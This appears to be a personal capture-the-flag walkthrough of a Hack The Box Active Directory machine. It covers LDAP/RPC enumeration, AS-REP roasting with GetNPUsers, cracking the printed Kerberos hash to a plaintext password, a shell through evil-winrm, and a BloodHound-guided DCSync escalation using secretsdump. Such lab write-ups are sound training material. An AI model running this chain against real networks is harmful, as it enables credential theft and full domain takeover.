 #Windows-machine #active-directory 


# Enumerated LDAP service using ldapsearch and rpcclient

```shell
ldapsearch -x -b 'dc=domain,dc=tld' -H ldap://IP 

#other way 

rpcclient -U '' -N <IP>
> enumdomusers # displays all users
> queryusergroup # checks all user group
> querygroup # checks group info
``` 



# used GetNPUsers to get TGT 

```shell
GetNPUsers.py htb.local/svc-alfresco -no-pass -format hashcat -outputfile hashes.asrep -request
```

# cracked the hash using johntheripper
```shell
$krb5asrep$23$svc-alfresco@HTB.LOCAL:5c7989407c8661891fcfcd648d3a58ee$9ab79261b60d3c932fa076c5c3889f68ecde7b39380106567024f68372a7282090ac688353e55061510c41286d2ed8d914eb41e12c5e00872c9a9c7aff24c39cfa8678f39fa2b6302e0f9377d7bdc72c67a054b7fe93769da9ed925e43fd8b9ff202ea933cd3ecdf2a8fdc118db10edde3347b691496c4c07effae374760299ae67576768c03a25f9964a9f48aba2b1913147c02990d9ec3c81d6c257eab0c10b63053fe50fca06da8ac49185f881b65187f51d81d9a001ae9b86fd458b2392d5bc036d0faf5d1a741e0e2466461c32f8f029d368128930d0c079cf47f8081dc5bbfa8808cc0

 john --wordlist=/usr/share/wordlists/rockyou.txt hash.asrep 
#Output
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL) 
```

# got a shell using evil-winrm

```shell
evil-winrm -u svc-alfresco -p 's3rvice' -i 10.129.42.229
```

# Used bloodhound to map out privesc path

>service accounts was a member of Account Operators which has a privilege to create accounts, it also has genericall privilege on Enterprise Key Admins and has the same permission as Exchange Windows permission, 

>Exchange Windows permission has writeDacl Permission on DC htb.local

> Added a user, followed the exploit in BloodHound

> created a user -> added it to the group that has writeDacl permission -> modified the user rights added a DCSync -> then used secretsdump.py
> 



